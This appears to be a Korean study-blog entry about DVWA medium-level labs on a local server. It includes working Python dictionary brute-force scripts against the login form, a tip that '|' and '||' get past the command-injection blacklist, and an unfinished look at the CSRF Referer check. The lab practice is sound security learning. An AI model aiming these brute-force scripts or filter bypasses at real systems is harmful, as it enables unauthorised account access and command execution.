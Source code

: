 ```yaml
---
layout: default
title: Day36
nav_order: 1

parent: Hacking Project - W6
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----
![image-20220523152746550](../img/image-20220523152746550.png)



중간 난이도로 설정한 뒤 시작!

# > DVWA: Brute Force	

## 삽질

```php
// Login failed
sleep( 2 );
echo "<pre><br />Username and/or password incorrect.</pre>"; 
```
low 레벨에서 없었던 코드가 한줄 추가되었다. 로그인 실패 시 `sleep(2);` 이다. 해당 시간 지연으로 인해 브루트 포싱에 시간이 걸릴 것으로 생각된다.

Hydra 툴을 이용하여 사전 공격부터 천천히 시도해본다면 가능할 것 같다. 따로 무한한 입력에 제한을 두지 않았기 때문이다. 하지만 이번에는 직접 파이썬 코드를 이용하여 시간 지연이 발생될 경우 다음 쿼리를 날리도록은 할 수 없을까? Timeout을 이용해서 한번 작성해보자.

```python
import requests
cookie = {'security': 'medium','PHPSESSID':'nku81sajta924jmrjmtv53f9dh'}
fp = open("./dictionary.txt","r")

dictionary_list = [x.strip() for x in fp.readlines()]
for upw in dictionary_list:
	url = f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={upw}&Login=Login#'
	
	try:
		response = requests.get(url=url,timeout=0.2,cookies=cookie)
	except requests.exceptions.Timeout as TT:
		print(f'[x] Failed... {upw}')
	else:
		print(f"[o] SUCCESS... {upw}")
		break

```

여러 구글링을 통해서 작성해보았는데 일단 로그인이 필요한 문제이므로 `requests.get()`을 이용할 때 쿠키 값을 전달했다. 그리고 `try...except`를 이용해서 요청을 보낼 때 제한한 타임 아웃이 발생할 경우에는 빠르게 넘어가도록 하였다. 그리하여 0.2초 내에 반응이 없으면 그냥 넘어가는 것이다.

그러나 실제 저 코드를 돌렸을 때 정답이 되는 비밀번호를 그냥 지나쳐버렸다. 하나하나 테스트할 경우에는 정확하게 찾아내었는데도 말이다. 그래서 시간을 들여 분석하여 내 방식대로 이해한 바는 다음과 같다.

1. 현재 로그인된 세션에서 요청을 한다.
2. 보낸 요청에 대한 응답을 기다린다.
3. 기다리는 동안에 다른 요청을 못보낸다.

결국에는 다시 2초를 기다려야만 하는 셈이다. 그래서 떠오른 아이디어는 세션 별로 걸릴 것이라는 나의 뇌피셜에 코드를 더 얹기로 했다. 타임아웃이 발생하는 순간 현재 로그인된 세션을 끊고 다시 로그인을 시도하여 요청하는 것이다. 가능할지 모르겠다.

<br>

문제를 풀다가 새로운 것만 배우고 결과적으로는 실패했다.
```python
import requests
params={
	'username':'admin',
	'password':'1234',
	'Login':'Login'
}

login_url = "http://localhost/DVWA/login.php/"

fp = open("./dictionary.txt","r")
dictionary_list = [x.strip() for x in fp.readlines()]

for upw in dictionary_list:
	url = f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={upw}&Login=Login#'
	s = requests.session()
	res = s.post(login_url,data=params)
	cookie = {'PHPSESSID': res.cookies['PHPSESSID'],'security':'medium'}

	try:
		response = requests.get(url=url,timeout=0.5,cookies=cookie)
	except requests.exceptions.Timeout as TT:
		print(f'[x] Failed... {upw}')
		s.close()
	else:
		print(f"[o] SUCCESS... {upw}")
		break
```

requests의 `session()`을 이용하여 로그인 진행 후 얻은 쿠키 값으로 요청에 전달하려 했으나 실패했다. 2시간 정도 이해할 수 없는 상황에 뇌정지가 왔었는데 아래 메세지를 본 후에 이 방법을 추후 탐구하기로 마음 먹었다.

![image-20220523174159245](img/image-20220523174159245.png)

디버깅 용으로 `print(res.text)`를 넣어봤었는데 해당 메세지가 있었는데 CSRF를 막아놨다. 좀 더 CSRF에 대해서 이해한 다음에 뚫어봐야 겠다(?). 나름 request 모듈과 except 활용법을 알게 되어 의미있었다.


<br>

## Write up

시간이 걸리기는 하지만 가능은 하다...

```python
import requests
cookie = {'security': 'medium','PHPSESSID':'jdl0o7bvnkfuvrris8kg87b3ff'}
fp = open("./dictionary.txt","r")

dictionary_list = [x.strip() for x in fp.readlines()]
for upw in dictionary_list:
	url = f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={upw}&Login=Login#'

	
	response = requests.get(url=url,cookies=cookie)
	if "incorrect" not in response.text:
		print(f"[o] SUCCESS... {upw}")
		break
	else: 
		print(f'[x] Failed... {upw}')
```

![image-20220523175807402](../img/image-20220523175807402.png)

<br><br><br>

-----

# > DVWA: Command Injection 

## 삽질

```php
// Set blacklist
$substitutions = array(
	'&&' => '',
	';'  => '',
); 
```

`&&` 기호와 `;` 기호가 막혀있지만 나는 `|` 기호와 `||` 기호를 알고 있다.

<br>

## Write up



![image-20220523180016274](../img/image-20220523180016274.png)

![image-20220523180237783](../img/image-20220523180237783.png)

<br><br><br>

-----

# > DVWA : CSRF

## 삽질

```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { 
...
else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    } 
```
medium에서는 위 코드가 추가되었는데 `stripos()`는 문자열을 찾는 함수로 참조하는 HTTP이름이 서버 네임와 같은지 판별하는 듯 하다

아 왜 힘들지? ㅂ

## Write up



